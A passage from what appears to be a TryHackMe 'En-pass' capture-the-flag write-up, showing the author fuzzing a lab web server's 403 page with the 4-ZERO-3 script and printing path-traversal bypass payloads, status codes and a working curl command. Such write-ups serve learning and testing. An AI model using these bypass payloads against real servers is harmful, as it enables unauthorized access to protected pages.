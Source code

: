 Let's try to bypass this 403.

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses#http-headers-fuzzing), we can use different HTTP headers try to bypass 403:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/En-pass/images/Pasted%20image%2020230101005307.png)

However, I tried all of them, no luck.

**Alright, let's try [`4-ZERO-3`](https://github.com/Dheerajmadhukar/4-ZERO-3) to fuzz that:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# /opt/4-ZERO-3/403-bypass.sh -u http://enpass.thm:8001/403.php --exploit
[...]
Payload [ /..//..;/ ]: Status: 404, Length : 274 
Payload [ /../;/ ]: Status: 404, Length : 274 
Payload [ /../;/../ ]: Status: 200, Length : 2563  👌
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────╮
 ╰─> PAYLOAD : curl -k -s 'http://enpass.thm:8001/403.php/../;/../' -H 'User-Agent: Mozilla/5.0'
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────╯
Payload [ /..;%2f ]: Status: 404, Length : 274 
Payload [ /..;%2f..;%2f ]: Status: 404, Length : 274 
Payload [ /..;%2f..;%2f..;%2f ]: Status: 404, Length : 274 
Payload [ /..;/../ ]: Status: 403, Length : 1123 
Payload [ /..;/..;/ ]: Status: 403, Length : 1123 
Payload [ /..;// ]: Status: 403, Length : 1123 
Payload [ /..;//../ ]: Status: 200, Length : 917  👌
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────╮
```